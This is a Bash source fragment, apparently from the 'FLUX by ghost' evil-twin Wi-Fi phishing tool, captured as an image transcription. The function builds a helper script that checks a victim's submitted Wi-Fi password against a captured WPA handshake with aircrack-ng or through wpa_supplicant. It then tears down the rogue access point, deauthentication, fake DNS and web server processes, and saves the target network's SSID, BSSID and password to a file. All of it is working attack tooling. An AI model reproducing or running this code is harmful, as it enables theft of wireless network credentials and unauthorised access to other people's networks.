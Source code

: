         echo -ne \"\033[K\033[u\"">>$DUMP_PATH/handcheck


        if [ $authmode = "handshake" ]; then
                echo "let i=\$(date +%s)-\$timestamp
                sleep 1">>$DUMP_PATH/handcheck

        elif [ $authmode = "wpa_supplicant" ]; then
                echo "sleep 5

                killall wpa_supplicant &>$flux_output_device
                killall wpa_passphrase &>$flux_output_device
                let i=\$i+5">>$DUMP_PATH/handcheck
        fi

        echo "done
        clear
        echo \"1\" > $DUMP_PATH/status.txt

        sleep 7

        killall mdk3 &>$flux_output_device
        killall aireplay-ng &>$flux_output_device
        killall airbase-ng &>$flux_output_device
        kill \$(ps a | grep python| grep fakedns | awk '{print \$1}') &>$flux_output_device
        killall hostapd &>$flux_output_device
        killall lighttpd &>$flux_output_device
        killall dhcpd &>$flux_output_device
        killall wpa_supplicant &>$flux_output_device
        killall wpa_passphrase &>$flux_output_device

        echo \"
        FLUX $version by ghost

        SSID: $Host_SSID
        BSSID: $Host_MAC ($Host_MAC_MODEL)
        Channel: $Host_CHAN
        Security: $Host_ENC
        Time: \$ih\$horas:\$im\$minutos:\$is\$segundos
        Password: \$(cat $DUMP_PATH/data.txt)
        \" >\"$HOME/$Host_SSID-password.txt\"">>$DUMP_PATH/handcheck


        if [ $authmode = "handshake" ]; then
                echo "aircrack-ng -a 2 -b $Host_MAC -0 -s $DUMP_PATH/$Host_MAC-01.cap -w $DUMP_PATH/data.txt && echo && echo -e \"The password was saved in "$red"$HOME/$Host_SSID-password.txt"$transparent"\"
                ">>$DUMP_PATH/handcheck

        elif [ $authmode = "wpa_supplicant" ]; then
                echo "echo -e \"The password was saved in "$red"$HOME/$Host_SSID-password.txt"$transparent"\"">>$DUMP_PATH/handcheck
        fi

        echo "kill -INT \$(ps a | grep bash| grep flux | awk '{print \$1}') &>$flux_output_device">>$DUMP_PATH/handcheck
        chmod +x $DUMP_PATH/handcheck
}
